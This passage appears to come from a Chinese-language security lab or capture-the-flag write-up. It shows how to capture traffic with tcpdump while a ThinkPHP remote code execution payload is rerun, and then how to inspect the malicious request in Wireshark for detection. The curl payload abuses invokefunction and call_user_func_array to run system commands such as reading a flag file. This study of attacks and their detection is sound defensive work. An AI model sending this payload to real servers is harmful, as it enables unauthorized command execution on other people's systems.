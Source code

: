    ![1748022767146](image/第一层两靶标攻击与利用检测/1748022767146.png)

2.**执行 `tcpdump` 命令**:

```bash
# 容器内部 IP 为 172.17.0.2，容器内服务端口为 80   
sudo tcpdump -i docker0 -A 'host 172.17.0.2 and port 80' -w thinkphp_traffic.pcap
```

在 `tcpdump` 运行时，重新执行之前的 `curl` 攻击 Payload，获取 Flag 的 Payload：

```bash
curl 'http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=cat%20/tmp/flag-%7Bbmh8b59ed0c-3042-499e-9a2d-ef93c0e1ec87%7D'
```

  ![1748023040614](image/第一层两靶标攻击与利用检测/1748023040614.png)

3.**停止抓包并分析**:
    按 `Ctrl+C` 停止 `tcpdump`。使用 Wireshark 打开 `thinkphp_traffic.pcap` 文件。
    筛选 `http` 流量，查看包含恶意 Payload 的 HTTP GET 请求，分析请求路径、参数以及服务器的响应
